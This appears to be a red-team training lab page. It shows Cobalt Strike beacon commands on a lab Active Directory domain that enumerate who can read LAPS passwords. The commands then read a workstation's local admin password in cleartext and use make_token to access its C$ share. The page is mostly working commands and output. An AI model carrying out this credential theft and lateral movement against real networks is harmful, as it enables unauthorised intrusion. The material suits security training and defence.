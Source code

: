 We can discover which principals are allowed to read the ms-Mcs-AdmPwd attribute by reading its DACL on each computer object.
```
beacon> powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier

ObjectDN                                                      SecurityIdentifier                          
--------                                                      ------------------                          
CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io         S-1-5-21-569305411-121244042-2357301523-1107
CN=WEB,OU=Web Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io   S-1-5-21-569305411-121244042-2357301523-1108
CN=SQL-2,OU=SQL Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io S-1-5-21-569305411-121244042-2357301523-1108
CN=WKSTN-1,OU=Workstations,DC=dev,DC=cyberbotic,DC=io         S-1-5-21-569305411-121244042-2357301523-1107

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1108
DEV\Support Engineers
```
  

Dedicated tooling such as the [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) also exist.  `Find-LAPSDelegatedGroups` will query each OU and find domain groups that have delegated read access.
```
beacon> powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1
beacon> powershell Find-LAPSDelegatedGroups

OrgUnit                                              Delegated Groups     
-------                                              ----------------     
OU=Workstations,DC=dev,DC=cyberbotic,DC=io           DEV\Developers       
OU=Servers,DC=dev,DC=cyberbotic,DC=io                DEV\Support Engineers
OU=Web Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io DEV\Support Engineers
OU=SQL Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io DEV\Support Engineers
```
  

`Find-AdmPwdExtendedRights` goes a little deeper and queries each individual computer for users that have "All Extended Rights".  This will reveal any users that can read the attribute without having had it specifically delegated to them.

To get a computer's password, simply read the attribute.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd

ms-mcs-admpwd 
------------- 
1N3FyjJR5L18za
```
  

The `make_token` command is an easy way to leverage it.
```
beacon> make_token .\LapsAdmin 1N3FyjJR5L18za
[+] Impersonated DEV\bfarmer

beacon> ls \\wkstn-1\c$
[*] Listing: \\wkstn-1\c$\

Size     Type    Last Modified         Name
----     ----    -------------         ----
          dir     08/16/2022 08:17:30   $Recycle.Bin
          dir     08/15/2022 22:22:31   $WinREAgent
          dir     01/27/2022 18:18:49   Documents and Settings
          dir     12/07/2019 09:14:52   PerfLogs
          dir     08/22/2022 00:15:03   Program Files
          dir     10/06/2021 13:57:25   Program Files (x86)
          dir     09/14/2022 09:50:27   ProgramData
          dir     08/17/2022 17:52:54   Recovery
          dir     09/14/2022 09:35:54   System Volume Information
          dir     08/16/2022 08:15:58   Users
          dir     09/09/2022 10:38:50   Windows
 8kb      fil     09/14/2022 08:12:19   DumpStack.log.tmp
 796mb    fil     09/14/2022 08:12:19   hiberfil.sys
 704mb    fil     09/14/2022 08:12:19   pagefile.sys
 16mb     fil     09/14/2022 08:12:19   swapfile.sys
 ```